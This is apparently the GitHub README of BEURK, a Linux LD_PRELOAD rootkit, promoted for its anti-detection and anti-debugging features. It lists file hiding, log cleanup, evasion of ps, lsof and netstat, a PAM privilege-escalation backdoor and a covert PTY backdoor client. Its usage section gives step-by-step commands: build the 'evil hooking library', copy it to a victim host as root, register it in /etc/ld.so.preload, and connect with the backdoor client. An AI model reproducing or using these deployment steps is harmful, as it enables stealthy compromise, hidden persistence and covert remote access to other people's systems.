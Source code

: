 BEURK
=====
[Wiki] | [API Documentation] | [Getting Started] | [Contributing]

[![Build Status](https://travis-ci.org/unix-thrust/beurk.svg?branch=master)](https://travis-ci.org/unix-thrust/beurk)
[![Ready Issues](https://badge.waffle.io/unix-thrust/beurk.svg?label=Ready&title=Ready-Issues)](https://waffle.io/unix-thrust/beurk)
[![Coverage Status](https://img.shields.io/coveralls/unix-thrust/beurk.svg)](https://coveralls.io/r/unix-thrust/beurk)
[![Coverity Scan Build](https://img.shields.io/coverity/scan/4866.svg)](https://scan.coverity.com/projects/4866)
[![Join the chat at https://gitter.im/unix-thrust/beurk](https://badges.gitter.im/Join%20Chat.svg)](https://gitter.im/unix-thrust/beurk)

**BEURK** is an userland [preload rootkit] for GNU/Linux, heavily focused
around anti-debugging and anti-detection.

> _**S'ils savaient, ils vomiraient ...**_
>
> *- The core team -*

-------------------------------------------------------------------------------

### Features ###
- Hide attacker files and directories
- Realtime log cleanup (on [utmp/wtmp])
- Anti process and login detection
- [ptrace(2)] hooking for anti-debugging
- [libpcap] hooking undermines local sniffers
- Bypass unhide, lsof, ps, ldd, netstat analysis
- PAM backdoor for *local privilege escalation*
- Furtive PTY backdoor client

### Usage ###
* **Compile**
```sh
    git clone https://github.com/unix-thrust/beurk.git
    cd beurk
    ./builder --arch=x64 # build an evil hooking library

```
* **Install**
```sh
    scp libselinux.so root@victim.com:/lib/
    ssh root@victim.com 'echo /lib/libselinux.so >> /etc/ld.so.preload'
```
* **Enjoy !**
```sh
    ./client victim_ip:port # connect with furtive backdoor
```

-------------------------------------------------------------------------------

[![Throughput Graph](https://graphs.waffle.io/unix-thrust/beurk/throughput.svg)](https://waffle.io/unix-thrust/beurk/metrics)

* _**BEURK v 1.0 is in active development,**_
_**please checkout current [development branch].**_

> NOTE: **BEURK** is a recursive acronym for
> **B**EURK **E**xperimental **U**nix **R**oot **K**it

-------------------------------------------------------------------------------

[Wiki]: https://github.com/unix-thrust/beurk/wiki
[API Documentation]: https://github.com/unix-thrust/beurk/wiki/API-Documentation
[Getting Started]: https://github.com/unix-thrust/beurk/wiki/Getting-Started
[Contributing]: https://github.com/unix-thrust/beurk/blob/master/CONTRIBUTING.md

[preload rootkit]: http://volatility-labs.blogspot.fr/2012/09/movp-24-analyzing-jynx-rootkit-and.html
[utmp/wtmp]: http://man7.org/linux/man-pages/man5/utmp.5.html
[ptrace(2)]: http://man7.org/linux/man-pages/man2/ptrace.2.html
[libpcap]: http://en.wikipedia.org/wiki/Pcap#libpcap
[development branch]: https://github.com/unix-thrust/beurk/tree/dev
